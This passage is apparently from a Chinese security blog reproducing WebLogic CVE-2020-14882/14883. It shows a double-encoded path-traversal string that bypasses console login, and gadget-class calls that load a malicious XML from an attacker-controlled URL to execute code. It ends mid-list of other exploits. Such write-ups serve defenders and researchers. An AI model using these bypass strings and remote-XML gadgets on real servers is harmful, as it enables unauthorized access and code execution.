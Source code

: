 在正常访问console后台时会提示输入帐号密码

[![](https://p0.ssl.qhimg.com/t01acbff4829cc6d6eb.png)](https://p0.ssl.qhimg.com/t01acbff4829cc6d6eb.png)

对于其他路径也限制了访问，可以看到返回403通过未授权访问，则可以绕过验证直接访问后台。

[![](https://p5.ssl.qhimg.com/t01816f90df01f96970.png)](https://p5.ssl.qhimg.com/t01816f90df01f96970.png)

可看到通过未授权访问的后台与正常登陆的后台相比，由于权限不足，缺少部署等功能，无法安装应用，所以也无法通过部署项目等方式直接获取权限。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0128cf762124d292ae.png)

‘%252E%252E%252F’即为二次URL编码过后的‘../’，通过这个就可以实现穿越路径未授权访问相关管理后台

[![](https://p4.ssl.qhimg.com/t012b7ced8838837f79.png)](https://p4.ssl.qhimg.com/t012b7ced8838837f79.png)

### 任意代码执行复现：

利用上述未授权访问CVE-2020-14882结合CVE-2020-14883

**利用方式（一）：**

通过：com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext，这种方法最早在CVE-2019-2725被提出，该方法通用于各版本weblogic。这里首先需要我们构造一个恶意的xml文件，如这里我们自己搭建的[http://10.211.55.2:9999/rce-win.xml](http://10.211.55.2:9999/rce-win.xml)。其次需要被攻击的weblogic能够访问我们的恶意xml。

[![](https://p3.ssl.qhimg.com/t017e250821d84d5c55.png)](https://p3.ssl.qhimg.com/t017e250821d84d5c55.png)

[![](https://p5.ssl.qhimg.com/t010327cdf4350f4317.png)](https://p5.ssl.qhimg.com/t010327cdf4350f4317.png)

其他gadget：

com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext(“[http://IP/poc.xml](http://IP/poc.xml)“)

**利用方式（二）：**

通过com.tangosol.coherence.mvel2.sh.ShellSession，但此利用方法只能在Weblogic 12.2.1及以上版本利用，因为10.3.6并不存在com.tangosol.coherence.mvel2.sh.ShellSession类。

我们可以看到在当前10.3.6版本会提示

[![](https://p4.ssl.qhimg.com/t01496af38fa3d84306.png)](https://p4.ssl.qhimg.com/t01496af38fa3d84306.png)

当使用12版本测试时，即可测试成功

[![](https://p1.ssl.qhimg.com/t01cd4b76d3c587b751.png)](https://p1.ssl.qhimg.com/t01cd4b76d3c587b751.png)

**其他exp：**

比如回显的
